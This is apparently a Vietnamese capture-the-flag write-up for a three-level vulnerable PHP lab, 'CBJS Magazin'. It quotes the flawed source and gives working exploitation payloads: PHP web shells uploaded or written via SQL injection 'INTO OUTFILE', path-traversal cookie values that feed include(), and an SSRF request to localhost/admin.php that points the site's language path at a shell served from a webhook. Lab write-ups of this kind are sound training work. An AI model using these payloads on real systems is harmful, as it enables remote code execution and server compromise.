# LAB 02 - CBJS Magazin
[Level 1](#level-1)  
[Level 2](#level-2)  
[Level 3](#level-3)

## Level 1
### Mục tiêu
RCE server và đọc bí mật ở thư mục gốc


### Tóm tắt chức năng
    * Đăng tải bình luận
    * File upload (Chỉ cho phép file có đuôi là .jpg, .txt, .png)
    * Thay đổi ngôn ngữ  
    * Endpoint admin.php


### Những lỗi có khả năng
    * File upload
    * HTML injection
    * SQL Injection

### Source code
**index.php**  
Dòng 34
```php
$file_path = $dir . "/" . $_FILES["file"]["name"];
```
Sink cho phép tấn công **PATH TRAVERSAL**  

Dòng 13
```php
if (!isset($_COOKIE['lang'])) {
    setcookie("lang", "en.html", time() + (86400 * 30), "/");
    die(header("Location: /"));
}
include("./views/header.php");
include("./database.php");
try {
    $row = select_one("select value from config where name = \"lang_path\"");
    $lang_path = $row["value"];
    // default config: lang_path = "./lang/"
    include($lang_path . $_COOKIE['lang']);
}
```
Sink nguy hiểm `include($lang_path . $_COOKIE['lang']);` Hàm `include()` cho phép thực thi code php có trong file được up lên server mà không nhát thiết phải có đuôi là `.php`. Tấn công **PATH TRAVERSAL, LFI**
### Ý tưởng
- Lợi dụng lỗi File Upload để ghi shell vào trong thư mục `/lang` -> Sử dụng bug ở dòng 13 truy cập và đọc kết quả trả về  
Tuy nhiên có thể do server được config, không thể khai thác **PATH TRAVERSAL + FILE UPLOAD**
- Sử dụng chức năng file upload như bình thường -> Upload shell -> chèn đường dẫn vào sink `include()`
### Khai thác
1. Chèn shell php vào file txt và upload lên server  
    
      
    *Đường dẫn file shell*
  
2. Thay đổi biến `COOKIE lang` thành đường dẫn đến file shell vừa upload. Đường dẫn mặc định là `./lang/session_id/file_name` do đó, phải thêm vào `../`
      
3. Tìm được flag ở đường dẫn `/` 


## Level 2
### Mục tiêu
RCE server và đọc bí mật ở thư mục gốc


### Tóm tắt chức năng
    * Cho phép đăng tải bình luận kèm file
    * File upload (Không giới hạn định dạng file có thể upload)
    * Thay đổi ngôn ngữ  
    * Endpoint admin.php


### Những lỗi có khả năng
    * File upload
    * HTML injection
    * SQL Injection

### Source code
**index.php**  
Dòng 13
```php
try {
    $row = select_one("select value from config where name = \"lang_path\"");
    $lang_path = $row["value"];
    // default config: lang_path = "./lang/"
    include($lang_path . $_COOKIE['lang'] . '.html');
} catch (PDOException $e) {
    die($e);
}
```
Sink `include()` cho phép đọc và thực thi code php dựa vào thay đổi giá trị `COOKIE lang`. Tuy nhiên, đã nối thêm đuôi `.html`-> **LFI**

Dòng 21
```php
if (isset($_GET['id'])) {
    try {
        $data = select_one("select image from comments where id = " . $_GET['id']);
        $show_image = $data['image'];
    } catch (PDOException $e) {
        die($e);
    }
}
```
Untrusted data rơi vào hàm xử lý kết quả SQL query trả về -> **có thể SQLi**

Thử thay đổi trường `GET id`
  
Có thể **SQLi** và hệ csdl hiện tại là **MySQL**

Kết quả SQL trả về được lưu trong biến `modalImg.src`


Sử dụng `INTO OUTFILE` và `LOAD_FILE()` báo lỗi  
`SQLSTATE[HY000]: General error: 1290 The MySQL server is running with the --secure-file-priv option so it cannot execute this statementError`  
  
> `secure_file_priv` là một biến toàn cục, kiểm soát tiến trình nhập và xuất file, dành cho user có quyền `FILE`  
> Nếu không được gán giá trị, thì có thể nhập và xuất ở bất kỳ đâu  
> Nếu được gán giá trị đường dẫn, thì chỉ có file trong đường dẫn đó có thể được đọc và ghi  
> Truy cập biến bằng `SELECT @@secure_file_priv`

### Ý tưởng
1. ~~Sử dụng `INTO OUTFILE` để chèn shell vào DocumentRoot -> thực hiện shell~~

2. ~~Sử dụng `INTO OUTFILE` để chèn shell vào thư mục `/lang` -> Lợi dụng lỗi sink `include()` để đọc và thực thi file~~

3. Sử dụng lỗi SQLi đọc giá trị biến `secure_file_priv` -> Upload shell có đuôi `.html` vào đường dẫn thư mục trên -> Lợi dụng sink `include()` đọc web shell.

### Khai thác

1. Tìm giá trị biến `secure_file_priv`, payload `100+UNION+SELECT+%40%40secure_file_priv`, thư mục `/tmp` cho phép đọc và ghi.  
    
2. Nhập payload `100+UNION+SELECT+'<?php+system(\'ls\');?>'+INTO+OUTFILE+'/tmp/test.html'` thêm file vào thư mục `/tmp`

3. Truy cập đường dẫn bằng cách thay biến `COOKIE lang=../../../../../../tmp/test` -> Tìm được flag
  


## Level 3

### Mục tiêu
RCE server và đọc bí mật ở thư mục gốc


### Tóm tắt chức năng
    * Đăng tải bình luận
    * Xử lý URL hình ảnh
    * Endpoint admin.php


### Những lỗi có khả năng
    * File upload
    * HTML injection
    * SQL Injection
    * SSRF

### Source code
**admin.php**
Dòng 6
```php
if ($_SERVER['REMOTE_ADDR'] === "127.0.0.1") {
    if (isset($_GET['name']) && isset($_GET['value'])) {
        try {
            $sql = "UPDATE config SET value = ? where name = ?";
            $sth = $conn->prepare($sql);
            $sth->bindParam(1, $_GET['value']);
            $sth->bindParam(2, $_GET['name']);
            $sth->execute();
        } catch (PDOException $e) {
            die($e);
        }
    }
}
```
Nếu `localhost` truy cập thì sẽ có chức năng thêm `value` và `name` vào trong bảng `config`  
  
Bảng `config` lưu đường dẫn file `lang` chứ không còn ở trong `COOKIE` như trước.  

**index.php**
```php
try {
    $row = select_one("select value from config where name = \"lang_path\"");
    $lang_path = $row["value"];
    include($lang_path);
} catch (PDOException $e) {
    die($e);
}
```
Đường dẫn lấy được do truy vấn dữ liệu trong bảng `config`, tuy nhiên ở trong file `admin.php`, admin trang web có thể thay đổi giá trị `lang_path` trong bảng
Sink `inlcude()` cho phép đọc và thực thi file php

```php
if (isset($_POST['comment'])) {
    try {
        $file_path = "";
        if (!empty($_POST["url"])) {
            $content = file_get_contents($_POST["url"]);
            $file_path = $dir . "/" . md5($content);
            file_put_contents($file_path, $content);
        }
        insert_one(
            "INSERT INTO comments(display_name, comment, image) VALUES (?, ?, ?)",
            "Anonymous",
            $_POST['comment'],
            $file_path
        );
    } catch (PDOException $e) {
        die($e);
    }
}
```
Sink nguy hiểm `file_get_contents` + untrusted data `POST url` --> Có thể khai thác `SSRF`


### Ý tưởng
1. Sử dụng SSRF truy cập `admin.php`  
--> Cập nhật bảng `config` nhằm chỉnh sửa lại đường dẫn `$lang_path . $_COOKIE['lang']` thành đường dẫn tới shell  
--> Server sẽ xử lý `URL Response`, do đó, ta lừa server xử lý đường dẫn có phản hồi là một shell php   
--> Webhook có chức năng chỉnh sửa `HTTP Response Content`


### Khai thác
1. Truy cập vào `admin.php` với payload `http://localhost/admin.php`
2. Tạo Webhook và chỉnh sửa HTTP Response thành một shell php

3. Nhập URL Webhook và lấy tên đường dẫn 

4. Lợi dụng chức năng chỉnh sửa `lang_path` và đổi thành đường dẫn đến shell, payload `http://localhost/admin.php?name=lang_path&value=./upload/365ae88812efb0db32ed8e8b7431aea1/4d01aa64035dfc2da31412f5e91b4240`
5. Kết quả trả về shell sẽ hiện ở trang chủ